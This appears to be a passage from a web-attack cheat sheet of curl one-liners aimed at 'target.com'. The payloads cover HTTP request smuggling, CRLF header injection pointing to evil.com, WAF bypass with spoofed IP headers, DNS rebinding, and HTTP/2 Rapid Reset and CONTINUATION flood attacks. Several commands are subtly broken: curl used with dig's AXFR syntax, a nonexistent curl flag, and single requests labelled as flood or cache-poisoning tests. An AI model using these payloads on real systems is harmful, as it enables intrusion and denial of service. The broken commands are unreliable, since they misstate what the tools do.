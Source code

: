 ## Advanced Information Gathering

```bash
# Get detailed timing information
curl -w "@curl-format.txt" -o /dev/null -s https://target.com

# Check for HTTP/2 support
curl -I --http2 https://target.com 2>&1 | grep -i 'HTTP/2'

# Check for HTTP Request Smuggling vulnerabilities
curl -X POST -H "Transfer-Encoding: chunked" -d "0\r\n\r\nGET /admin HTTP/1.1\r\nHost: target.com\r\n\r\n" https://target.com

# Test for CRLF injection
curl -H "X-Test: test%0d%0aX-Forwarded-Host: evil.com" https://target.com

# Check for DNS rebinding
curl --resolve target.com:80:127.0.0.1 http://target.com

# Test for DNS rebinding protection bypass
curl --connect-to ::target.com:80:127.0.0.1:80 http://target.com

# Check for DNS cache poisoning
curl --dns-servers 8.8.8.8 https://target.com

# Test for DNS zone transfer
curl -v -t AXFR @ns.target.com target.com
```

## Advanced Header Manipulation

```bash
# Bypass WAF/IPS with obfuscated headers
curl -H "X-Forwarded-For: 127.0.0.1, 10.0.0.1" \
     -H "X-Forwarded-Host: target.com" \
     -H "X-Originating-IP: 127.0.0.1" \
     -H "X-Remote-IP: 127.0.0.1" \
     -H "X-Remote-Addr: 127.0.0.1" \
     https://target.com

# Test for HTTP Request Smuggling (CL.TE)
curl -X POST \
     -H "Transfer-Encoding: chunked" \
     -H "Content-Length: 4" \
     -d "1\r\nZ\r\nQ\r\n\r\n" \
     https://target.com

# Test for HTTP/2 Downgrade
curl --http2-prior-knowledge -I https://target.com

# Test for HTTP/2 Rapid Reset (CVE-2023-44487)
curl --http2 --http2-no-server-push -v https://target.com

# Test for HTTP/2 CONTINUATION Flood
curl --http2 -H "Custom: $(printf 'A%.0s' {1..10000})" https://target.com
```
